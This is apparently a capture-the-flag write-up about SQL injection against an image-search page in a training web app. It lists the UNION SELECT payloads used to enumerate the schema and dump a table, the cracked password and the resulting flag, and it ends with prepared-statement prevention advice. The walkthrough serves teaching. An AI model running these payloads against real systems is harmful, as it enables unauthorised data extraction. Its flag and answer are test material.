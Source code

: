 # SQL Injection - Images 

`f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## Description

go to `/?page=searchimg`

submit :
- `1 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 UNION SELECT table_name , 1 FROM information_schema.columns`
- `1 UNION SELECT table_schema, 1 FROM information_schema.tables`

then \
`1 UNION SELECT title, comment FROM Member_images.list_images`

"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

password => 1928e8083cf461a51303633093573c46 => albatroz

albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

---

## How does it work ?

The query executed by the server is probably like `SELECT title, Url FROM Member_images.list_images WHERE id= ` and then it is filled with the parameter sent by the client which should be a number. The id parameter is not protected, which means that you can inject SQL without the server detecting any problem.

You have to send a valid parameter to respect the SQL syntax : \
`SELECT title, Url FROM Member_images.list_images WHERE id=1`

And then the door is opened to append another query to the current string :

`SELECT title, Url FROM Member_images.list_images WHERE id=1 UNION SELECT title, comment FROM Member_images.list_images`

The UNION statement allows us to get two other columns (the number of queried columns should be the same as in the first part of the query) from the table we want.

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on StackOverflow regarding the `prepare` and `execute` commands :

>The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."